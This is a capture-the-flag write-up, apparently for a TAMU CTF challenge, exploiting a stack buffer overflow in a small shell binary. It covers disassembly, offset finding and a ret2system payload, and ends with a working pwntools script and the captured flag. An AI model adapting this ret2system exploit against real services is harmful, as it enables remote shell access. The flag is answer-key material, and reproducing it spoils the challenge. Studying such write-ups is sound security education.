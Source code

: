 # pwn4 #

![description](./imgs/description.png)

## Running the binary ##

It seems that this "shell" is able to parse the numbers and the commands:
```
nc pwn.ctf.tamu.edu 4324
I am a reduced online shell
our options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> 3
/pwn

I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> exit
```

After sending a big string the binary crashes:
```
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Unkown Command

Segmentation fault
```
We got a segfault, lets check how we can exploit this binary ...

## Binary analysis ##

Looking at the different functions called when we select a command we started to see a pattern ...

```
; snippet from whoami
0x080485df      683b880408     push str.whoami             ; 0x804883b ; "whoami"
0x080485e4      e847feffff     call sym.imp.system

; snippet from ls
0x08048594      6830880408     push str.ls                 ; 0x8048830 ; "ls"
0x08048599      e892feffff     call sym.imp.system
```

First a string is pushed to the stack, and after that a call to system is executed with the first
value of the stack as an argument. We needed to find a way to divert the execution flow into a call
to system("/bin/sh").

The only problem that we had wass that we needed to find a pointer to the string "/bin/sh",
we can find this in locations like libc, environment variables and the binary itself. Since we
are not able to verify the first two options we checked the strings in the binary.

![strings](./imgs/strings.png)

Luckily for us, as shown in the illustration above the orgas added a string for us in the binary,
and we can use the address 0x0804a038 as an argument for the call to system.

As stated before we were able to segfault the binary, indicating that we were able to corrupt
the stack we need to find the correct offset to overwrite the RET address after sending our
input.

We ran the binary in gdb and sent an input string of 64 bytes with a unique pattern ...

![ret](./imgs/ret.png)

The offset to overwrite the first RET pointer was 32 bytes.

```
>>> cyclic_find(0x61616169)
32
```
We can now overwrite the bytes 33-36 with the value 0x08048430 (system address) and remembering
the C calling convention we need to arrange our stack as following:

```
stack
lower address
32 bytes [random data]
04 bytes [return to system]
04 bytes [fake return address]
04 bytes [arg1 of system]
higher address
```
We tested a buffer with this structure, and as shown below we were able to overwrite the RET
address with the address of system.

![system](./imgs/system.png)

If we continue to step through the instructions we reach the RET instruction and as expected we
will return to the system function.

![ret2sys](./imgs/ret2sys.png)

At this point our stack was setup to execute the system function with /bin/sh as the argument.

![syscall](./imgs/syscall.png)

Our next return pointer is our fake 0x43434343 ('CCCC') address, if we want to be more careful we
can use the address of the exit function to avoid a crash after our shell has finished the execution.

## Getting the flag ##
We created the following script to get the flag from the CTF server ...

```python
from pwn import *

c = remote('pwn.ctf.tamu.edu', 4324)

print c.recv()

payload = "A"*32 + "\x30\x84\x04\x08" + "CCCC" + "\x38\xa0\x04\x08"

c.sendline(payload)

print c.recvline()
print c.recvline()

c.sendline('cat flag.txt')

print c.recvline()

c.close()
```
And after executing our script we were able to get the flag ...

```
python exp.py
[+] Opening connection to pwn.ctf.tamu.edu on port 4324: Done
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input>
Unkown Command



gigem{b4ck_70_7h3_l1br4ry}

[*] Closed connection to pwn.ctf.tamu.edu port 4324
```



